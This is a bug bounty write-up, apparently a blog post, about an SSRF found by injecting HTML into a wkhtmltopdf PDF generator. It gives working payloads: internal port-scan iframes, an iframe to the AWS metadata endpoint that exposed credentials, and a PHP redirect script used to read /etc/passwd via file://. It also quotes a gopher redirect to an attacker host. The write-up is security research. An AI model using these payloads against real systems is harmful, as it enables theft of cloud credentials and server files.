

This week on a BugBounty program which I left aside I found my first SSRF, here is my writeup.

## Recon
The scope is restricted to the website and its API, rather basic it allows to register as a simple user and has only a few features.

The program has been open for several months already, I approached the site thinking I probably won't find much.

However from the first hours I already had several P2 (IDOR). A scope perhaps more interesting than expected ... so I spent some time to observe the various features and how they work as a simple user.

After some tests I noticed a feature that allows to generate a PDF with data entered by the user, the software used is *WKHTMLTOPDF* in its version *0.12.3*.

Interesting, especially since recently I could read the excellent presentation of Nahamsec "[Owning the cloud through SSRF and PDF generators](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit#slide=id.g5df2243028_2_81)", if I retained at least 1 thing from this presentation it's the sentence "*If you see a PDF generator somewhere, 9/10 it's vulnerable*".

After some tests I finally didn't manage to exploit the feature, at least not on this endpoint !

While continuing to use the site and its features I came across a page that allowed me to add items and then generate a PDF of them, ok ... let's try again. I first started with a basic payload:

```html
<b>TEST</b>
```

Nothing ... try something else :

```html
<a href="https://google.fr">xxx</a>
```

This time, it's well reflected in the PDF and the link is clickable, so it's possible to inject HTML!

## Exploitation

In the rush I directly wanted to load the contents of the file "/etc/passwd" with the following payload :
```html
<iframe src="file:///etc/passwd">
```

Unfortunately the iframe was empty, so I tested a first payload to check that it was possible to interact with an external resource.
```html
<iframe src="https://{MY_SERVER}/x.png">
```

While generating the PDF, I received the request to my server, which confirmed that it is possible to use an iframe, so I tested various techniques, including port scanning with a payload of the type :
```html
<iframe src="https://domain.tld:80">
<iframe src="https://domain.tld:25">
<iframe src="https://domain.tld:22">
```

When a port was not available I got a 500 error from the server, ok so I got a blind SSRF but I wanted more than a simple port scan! Then I remembered that at one point in the site when you want to access a document the URL is of the type *https://domain.tld/s3/get/document/8/{RESSOURCE_ID}*.

Hum. .., *S3* ? Maybe an AWS instance, let's test that :

```html
<iframe src="http://169.254.169.254">
```

Boom ! I have access to the AWS instance and its content, including credentials (API tokens, etc...) which are private and sensitive elements.


## Digging

Ok cool, this SSRF is already critical, but in the end I wanted to load a local file on the server such as "*/etc/passwd*", after some tests and bypassing technique I always end up with an empty iframe.

Then while talking with a hunter friend, he showed me a very interesting technique, a PHP code snippet that allows to include an iframe to an external URL that will redirect to 127.0.0.1 but with the possibility to include a parameter such as "*file://*"" to load a local file.

The code snippet is as follows:
```php
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
```

So I quickly set it up on my server (You will have understood that it is necessary to have a web server with PHP installed for this piece of code to be usable).

I can now use the following payload:
```html
<iframe src="https://my_server.tld/ssrf.php?a=file:///etc/passwd">
```

I generate the new PDF and hop! I have the content of the desired file :D

## Conclusion
This SSRF is interesting because even if it may remain quite "simple", it shows that you should not stop at the first payload that works (the port scan in my case) and try to dig for the most critical scenario.

In the end, by looking closer, on the Github repository of [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) it is possible to find the following payload:
```php
<?php
  header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>
```

That you only have to modify in this to get the same result as above:
```php
<?php
 header("Location: file:///etc/passwd");
?>
```

The advantage of the code snippet above is that it is possible to directly include the wrapper with the desired payload as a parameter rather than modifying the content of the php file each time.

Initially I hadn't watched this program because I didn't find it interesting, it's only several months after I decided to have a look at it, although several hunters have raised vulnerabilities I learned here that it's always interesting to go back to an "old scope".

That doesn't mean the other hunters were bad because each hunter has its own methodology and favorite vulnerabilities, especially since this is a production site so there is a strong chance that there have been changes or new features that weren't available before.
